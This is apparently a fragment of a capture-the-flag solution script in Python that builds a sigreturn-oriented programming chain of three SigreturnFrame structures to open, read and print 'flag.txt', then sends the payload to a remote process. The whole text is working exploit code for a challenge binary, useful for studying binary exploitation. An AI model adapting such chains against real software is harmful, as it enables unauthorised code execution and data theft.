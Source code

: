 ```python
openflag.rax = 0x2
openflag.rdi = flag_str
openflag.rsi = 0x0
openflag.rcx = 0x0
openflag.rdx = 0x0
openflag.rip = syscall
openflag.rbp = 0x404268
openflag.rsp = 0x404268

# rax = 0,read(3,bss,100)from (open) to (bss)
readflag = SigreturnFrame()
readflag.rax = 0x0
readflag.rdi = 3
readflag.rsi = store_flag
readflag.rdx = 0x100
readflag.rip = syscall
readflag.rbp = 0x404368
readflag.rsp = 0x404368

# rax = 1,write(1,bss,100) from (bss) to me
writeflag = SigreturnFrame()
writeflag.rax = 0x1
writeflag.rdi = 0x1
writeflag.rsi = store_flag
writeflag.rdx = 0x100
writeflag.rip = syscall
writeflag.rbp = 0xdeadbeef
writeflag.rsp = 0xdeadbeef


payload = b'flag.txt'
payload += p64(sigretrun)
payload += bytes(openflag)

payload += p64(sigretrun)
payload += bytes(readflag)

payload += p64(sigretrun)
payload += bytes(writeflag)

# gdb.attach(r)
# pause()
sleep(0.2)
r.sendline(payload)

r.interactive()
```


